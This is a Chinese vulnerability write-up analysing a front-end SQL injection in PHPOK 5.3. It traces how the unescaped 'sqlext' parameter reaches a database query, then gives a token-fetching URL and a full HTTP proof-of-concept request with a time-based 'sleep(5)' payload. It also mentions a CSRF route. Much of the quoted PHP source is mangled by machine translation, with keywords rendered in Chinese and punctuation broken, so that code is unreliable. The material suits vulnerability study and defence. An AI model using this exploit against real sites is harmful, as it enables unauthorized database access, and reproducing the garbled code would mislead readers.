


PHPOK 5.3 前台注入
==================

一、漏洞简介
------------

二、漏洞影响
------------

PHPOK 5.3

三、复现过程
------------

### 漏洞分析

灵活获取参数：\$this-\>get()方法

framework / init.php＃get

    最后的公共函数get（$ id，$ type =“ safe”，$ ext =“”）
    { 
        // PGC进入获取
        $ val = isset（$ _ POST [$ id]）？$ _POST [$ id]：（isset（$ _ GET [$ id]）？$ _GET [$ id]：（isset（$ _ COOKIE [$ id]）？$ _COOKIE [$ id]：''））; 
        if（$ val ==''）{ 
            if（$ type =='int'|| $ type =='intval'|| $ type =='float'|| $ type =='floatval'）{ 
                返回0 ; 
            } else { 
                return”; 
            } 
        } 
        //判断内容是否有转义，所有未转义的数据都直接转义
        $ addslashes = false; 
        if（function_exists（“ get_magic_quotes_gpc”）&& get_magic_quotes_gpc（））{ 
            $ addslashes = true; 
        } 
        if（！
            $ addslashes）{ $ val = $ this-> _ addslashes（$ val）; 
        }
        返回$ this-> format（$ val，$ type，$ ext）; 
    }

跟进format函数：framework / init.php＃format

    最终的公共函数格式（$ msg，$ type =“ safe”，$ ext =“”）
    { 
        if（$ msg ==“”）{ 
            return ;; 
        } 
        if（is_array（$ msg））{ 
            foreach（$ msg as $ key => $ value）{ 
                if（！is_numeric（$ key））{ 
                    $ key2 = $ this-> format（$ key）; 
                    if（$ key2 ==``|| in_array（$ key2，array（'＃'，'＆'，'％'）））{ 
                        unset（$ msg [$ key]）; 
                        继续; 
                    } 
                } 
                $ msg [$ key] = $ this-> format（$ value，$ type，$ ext）; 
            } 
            if（$ msg && count（$ msg）> 0）{ 
                返回$ msg; 
            } 
            返回false; 
        }
        if（$ type =='html_js'||（$ type =='html'&& $ ext））{ 
            $ msg = stripslashes（$ msg）; 
            if（$ this-> app_id！='admin'）{ 
                $ msg = $ this-> lib（'string'）-> xss_clean（$ msg）; 
            } 
            $ msg = $ this-> lib（'string'）-> clear_url（$ msg，$ this-> url）; 
            返回addslashes（$ msg）; 
        } 
        //转义去除
        $ msg = stripslashes（$ msg）; 
        //格式化处理内容
        开关（$ type）{ 
            case'safe_text'：
                $ msg = strip_tags（$ msg）; 
                $ msg = str_replace（array（“ \\”，“'”，'“'，” <“，”>“），''，$ msg）; 
            break; 
            情况'system'：
                $ msg =！preg_match（“ / ^ [a-zA-Z] [a-z0-9A-Z \ _ \-] + $ / u”，$ msg）吗？false：$ msg;
            打破; 
            情况'id'：
                $ msg =！preg_match（“ / ^ [a-zA-Z] [a-z0-9A-Z \ _ \-] + $ / u”，$ msg）吗？false：$ msg; 
            打破; 
            情况'复选框'：
                $ msg = strtolower（$ msg）=='on'吗？1：$ this-> format（$ msg，'safe'）; 
            打破; 
            情况'int'：
                $ msg = intval（$ msg）; 
            打破; 
            情况'intval'：
                $ msg = intval（$ msg）; 
            打破; 
            情况'float'：
                $ msg = floatval（$ msg）; 
            打破; 
            情况'floatval'：
                $ msg = floatval（$ msg）; 
            打破; 
            案例“时间”：

            打破; 
            情况'html'：
                $ msg = $ this-> lib（'string'）-> safe_html（$ msg，$ this-> url）; 
            打破; 
            情况'func'：
                $ msg = function_exists（$ ext）？$ ext（$ msg）：假; 
            打破; 
            情况'text'：
                $ msg = strip_tags（$ msg）; 
            打破; 
            默认值：
                $ msg = str_replace（array（“ \\”，“'”，'“'，” <“，”>“），array（”＆＃92;“，”＆＃39;“，”＆quot; “，”＆lt;“，”＆gt;“），$ msg）; 
            break; 
        } 
        if（$ msg）{ 
            $ msg =加上斜线（$ msg）; 
        } 
        返回$ msg; 
    }

格式默认为安全模式，也就是仅将\\ \" \' \< \>实体编码。

注入点：

framework / api / index\_control.php＃phpok\_f

    // ... 
    $ token = $ this-> get（“ token”）; 
    if（！$ token）{ 
        $ this-> json（P_Lang（“接口数据异常”））;; 
    } 
    $ this-> lib（'token'）-> keyid（$ this-> site ['api_code']）; 
    $ info = $ this-> lib（'token'）-> decode（$ token）; 
    if（！$ info）{ 
        $ this-> json（P_Lang（'信息为空'））; 
    } 
    $ id = $ info ['id'];

    // 176行
    $ ext = $ this-> get（'ext'）; 
    if（$ ext && is_array（$ ext））{ 
        foreach（$ ext as $ key => $ value）{ 
            if（！$ value）{ 
                继续；
            } 
            // sqlext变量转义取消
            if（$ key =='sqlext'&& $ value）{ 
                $ value = str_replace（array（'＆＃39;'，'“”，'’''，'＆＃34 ;'），array（“'”，'“'，”'“，'”'），$ value）; 
            } 
            $ param [$ key] = $ value; 
        } 
    } 
    // $ id从加密的令牌中来
    /// sqlsql的值的函数只有_userlist，_arc_condition_single，_arc_condition 
    $ list = $ this-> call-> phpok（$ id，$ param）;

继续跟进phpok函数：framework / phpok\_call.php＃phpok

    公共功能phpok（$ id，$ rs =“”）
    { 
        // 76行
        $ siteinfo = $ this-> model（'site'）-> get_one（$ rs ['site']）; 
        // 91行
        if（substr（$ id，0,1）！='_'）{ 
        // $ id从令牌中来，为phpok表中identifier标识符，$ rs ['site']可控为任意值
        $ call_rs = $ this-> load_phpoklist（$ id，$ rs ['site']）; 
        } 
        // 116行
        $ func ='_'。$ call_rs ['type_id']; 
        // 131行动态调用函数_xxxx 
        return $ 
    this- > $ func（$ call_rs，$ cache_id）; }

跟进load\_phpoklist：framework / phpok\_call.php＃load\_phpoklist

    私有函数load_phpoklist（$ id，$ siteid = 0）
    { 
        $ this-> model（'call'）-> site_id（$ siteid）; 
        if（$ this-> _ cache && $ this-> _ cache [$ id]）{ 
            返回$ this-> _ cache [$ id]; 
        } 
        $ this-> _ cache = $ this-> model（'call'）-> all（$ siteid，'identifier'）; 
        if（$ this-> _ cache && $ this-> _ cache [$ id]）{ 
            返回$ this-> _ cache [$ id]; 
        } 
        返回false; 
    }

这一段代码\$this-\>model(\'call\')-\>all(\$siteid,\'identifier\');实现的是查询phpok表，其中identifier
=
xxx的信息，然后在phpok()函数的131行进行动态调用其插入为type\_id的值函数。

例如我们要调用framework/phpok\_call.php下的\_arclist函数，我们可以选择：

    http://0-sec.org/api.php?c=index&f=phpok&ext[site]=1&token=加密('id=m_picplayer')

我们接着在framework/phpok\_call.php电子邮件寻找柯林斯触发SQL的函数，从phpok表里我们可以看到其默认的TYPE\_ID只有四个不同的值arclist，
，arc，catelist，project我们而需要找到拼接sqlext变量的函数：

框架/ phpok\_call.php＃\_arclist

    私有函数_arclist（$ rs，$ cache_id =''）
    { 
        // 254行
        $ condition = $ this-> _ arc_condition（$ rs，$ flist，$ project）; 
        //带入注入数据
        $ array ['total'] = $ this-> model（'list'）-> arc_count（$ project ['module']，$ condition）; 
    }

跟进：framework / phpok\_call.php＃\_arc\_condition

直接拼接了sqlext

    private function _arc_condition($rs,$fields='',$project='')
    {
        // 623行
            if($rs['sqlext']){
            $condition .= " AND ".$rs['sqlext'];
        }

        // 671行
        return $condition;
    }

接着将结果带入了：

    $ this-> model（'list'）-> arc_count（$ project ['module']，$ condition）;

调用：framework / model / list.php＃arc\_count 5.jpg

拼接sql，调用\$this-\>db-\>count(\$sql)

framework / engine / db / mysqli.php＃count

    公共功能计数（$ sql =“”，$ is_count = true）
    { 
        if（$ sql && is_string（$ sql）&& $ is_count）{ 
            $ this-> set（'type'，'num'）; 
            $ rs = $ this-> get_one（$ sql）; 
            $ this-> set（'type'，'assoc'）; 
            返回$ rs [0]; 
        } else { 
            if（$ sql && is_string（$ sql））{ 
                $ this-> query（$ sql）; 
            } 
            if（$ this-> query）{ 
                返回mysqli_num_rows（$ this-> query）; 
            } 
        } 
        返回false; 
    }

根进get\_one函数：framework / engine / db / mysqli.php＃get\_one

    公共功能get_one（$ sql =''）
    { 
        if（$ sql）{ 
            $ false = $ this-> cache_false（$ sql）; 
            if（$ false）{ 
                返回false; 
            } 
            if（$ this-> cache_get（$ sql））{ 
                返回$ this-> cache_get（$ sql）; 
            } 
            $ this-> query（$ sql）;

根进\$this-\>query(\$sql);：framework / engine / db / mysqli.php＃query

最终将sql带入执行。

当然，到这里，其实还有一个问题没有解决，我们需要如果拿到token=加密(\'id=m\_picplayer\')。

框架/ API / index\_control.php＃token\_f

    { 
        $ this-> config（'is_ajax'，true）; 
        if（！$ this-> site ['api_code']）{ 
            $ this-> error（P_Lang（“系统未配置接口功能”））; 
        } 
        $ id = $ this-> get（'id'，'system'）; 
        if（！$ id）{ 
            $ this-> error（P_Lang（'未指定数据调用标识'））; 
        } 
        $ this-> model（'call'）-> site_id（$ this-> site ['id']）; 
        //限制范围，其中identifier = $ id 
        $ rs = $ this-> model（'call'）-> get_one（$ id，'identifier'）; 
        if（！$ rs ||！$ rs ['status']）{ 
            $ this-> error（P_Lang（'标识不存在或未启用'））; 
        }

      // 141行
        $ array = array（'id'=> $ id，'param'=> $ param）; 
        $ token = $ this-> lib（'token'）-> encode（$ array）; 
        $ this-> success（$ token）; 
    }

其中第一个如果条件需要在后台生成api字符串：

> 没开启的话，其实构造一个csrf的poc也是可以的

第二个条件预期id=m\_picplayer即可

### 漏洞复现

    http://0-sec.org/api.php?c=index&f=token&id=m_picplayer

POC：

    GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
    Host: 0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
    Connection: close

四、参考链接
------------

> <https://xz.aliyun.com/t/6830>
